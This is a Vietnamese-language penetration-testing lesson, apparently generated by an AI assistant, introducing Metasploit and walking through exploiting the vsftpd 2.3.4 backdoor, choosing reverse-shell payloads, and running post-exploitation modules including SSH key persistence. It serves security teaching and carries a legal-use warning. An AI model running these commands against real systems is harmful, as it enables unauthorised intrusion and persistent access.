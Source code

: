 Dưới đây là nội dung chi tiết cho bài học:

---

# 04. Metasploit

**Khung khai thác lỗ hổng mạnh mẽ nhất dành cho pentester**

---

## 🎯 Mục tiêu

* Hiểu khái niệm và kiến trúc của Metasploit.
* Biết cách sử dụng các module chính: exploit, payload, auxiliary...
* Thực hành khai thác một lỗ hổng đơn giản với Metasploit Framework.

---

## 📌 1. Metasploit là gì?

Metasploit là một **framework** hỗ trợ kiểm thử bảo mật, khai thác lỗ hổng, và phát triển mã khai thác (exploit).

### 🔑 Thành phần chính:

* **Exploit**: đoạn mã khai thác lỗ hổng
* **Payload**: mã thực thi sau khi exploit thành công (VD: mở shell)
* **Auxiliary**: các module hỗ trợ (scan, fuzzing, brute force...)
* **Post**: module thực hiện hành vi sau khai thác (VD: lấy mật khẩu, tạo backdoor...)

---

## 🛠 2. Cài đặt và khởi động

### ✅ Trên Kali Linux:

Metasploit đã được cài sẵn. Khởi chạy bằng:

```bash
msfconsole
```

---

## ⚙️ 3. Câu lệnh cơ bản

| Lệnh                   | Mô tả                                     |
| ---------------------- | ----------------------------------------- |
| `search tên_lo_hong`   | Tìm kiếm exploit theo tên/lỗ hổng         |
| `use đường_dẫn_module` | Sử dụng module (exploit, auxiliary, etc.) |
| `set`                  | Gán giá trị (IP, payload, port...)        |
| `show options`         | Xem các tham số cần thiết                 |
| `exploit` hoặc `run`   | Thực thi tấn công                         |

---

## 🚀 4. Thực hành khai thác đơn giản

**Kịch bản**: Máy mục tiêu đang chạy dịch vụ vulnerable FTP (`vsftpd 2.3.4`).

### 🔹 Bước 1: Tìm module exploit

```bash
search vsftpd
```

Chọn module:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

### 🔹 Bước 2: Cấu hình tham số

```bash
set RHOSTS 192.168.1.100
set RPORT 21
```

### 🔹 Bước 3: Tấn công

```bash
exploit
```

Nếu thành công, bạn sẽ có shell truy cập hệ thống đích.

---

## 📦 5. Payload phổ biến

| Payload                             | Mô tả                          |
| ----------------------------------- | ------------------------------ |
| `cmd/unix/reverse`                  | Lệnh đảo chiều shell trên Unix |
| `windows/meterpreter/reverse_tcp`   | Shell mạnh trên Windows        |
| `linux/x86/meterpreter/reverse_tcp` | Tương tự cho Linux             |

---

## 🧪 6. Post-exploitation

Sau khi truy cập thành công hệ thống:

```bash
run post/linux/gather/enum_users
```

Hoặc:

```bash
run post/multi/manage/sshkey_persistence
```

---

## 📌 7. Giao diện web: Metasploit Community / Armitage

* Armitage: giao diện GUI hỗ trợ tấn công nhóm và mô phỏng tập trung.
* Có thể cài thêm nếu muốn tấn công trực quan.

---

## 🛡 8. Lưu ý an toàn

* Metasploit rất mạnh → **Chỉ dùng trong môi trường kiểm thử hợp pháp**.
* Sử dụng nhầm có thể phá vỡ hệ thống thật và vi phạm pháp luật.

---

## 🧠 Tổng kết

* Metasploit là công cụ quan trọng trong quy trình khai thác lỗ hổng.
* Bạn cần kết hợp Nmap + Recon + Metasploit để tạo ra các đòn tấn công hiệu quả.
* Nên luyện tập trên các môi trường như: **Metasploitable**, **TryHackMe**, **Hack The Box**, **DVWA**...

---

Bạn muốn tiếp tục với bài **05. Meterpreter nâng cao** không?
